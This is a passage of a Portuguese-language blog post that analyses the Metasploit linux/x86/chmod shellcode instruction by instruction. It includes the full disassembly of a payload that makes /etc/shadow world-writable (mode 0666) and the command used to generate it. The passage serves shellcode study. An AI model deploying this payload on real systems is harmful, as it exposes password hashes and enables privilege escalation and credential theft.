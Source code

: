 FILE  /etc/shadow      yes       Filename to chmod
MODE  0666             yes       File mode (octal)

Description:
 Runs chmod on specified file with specified mode
{% endhighlight %}

A syscall chmod recebe dois argumentos, o primeiro é o caminho ou arquivo a ter
as permissões setadas, e o segundo é o bitmask resultado dos respectivos octais
"ORed".

O payload linux/x86/chmod modifica as permissões de acesso do arquivo
/etc/shadow para 0666.

{% highlight console %}
$ msfpayload linux/x86/chmod R | ndisasm -u -
00000000  99                cdq
00000001  6A0F              push byte +0xf
00000003  58                pop eax
00000004  52                push edx
00000005  E80C000000        call dword 0x16
0000000A  2F                das
0000000B  657463            gs jz 0x71
0000000E  2F                das
0000000F  7368              jnc 0x79
00000011  61                popad
00000012  646F              fs outsd
00000014  7700              ja 0x16
00000016  5B                pop ebx
00000017  68B6010000        push dword 0x1b6
0000001C  59                pop ecx
0000001D  CD80              int 0x80
0000001F  6A01              push byte +0x1
00000021  58                pop eax
00000022  CD80              int 0x80
{% endhighlight %}

Ele inicia com a instrução [CDQ](http://faydoc.tripod.com/cpu/cdq.htm) no
intento de zerar EDX; aqui, já econtramos uma falha no shellcode do msf. Se
houver lixo em EAX (um número negativo, por exemplo) EDX não será zerado, pois o
CDQ copia o sign bit 31 de EAX para todos os bits de EDX.

{% highlight console %}
00000000  99                cdq
{% endhighlight %}

A segunda instrução coloca o valor 15 ou 0xf em hexa no topo da STACK para
seguidamente ser retirado e inserido em EAX.

{% highlight console %}
00000001  6A0F              push byte +0xf    __NR_chmod
00000003  58                pop eax
{% endhighlight %} [//]: # (__)

Salvando EDX (supostamente 0) na stack.
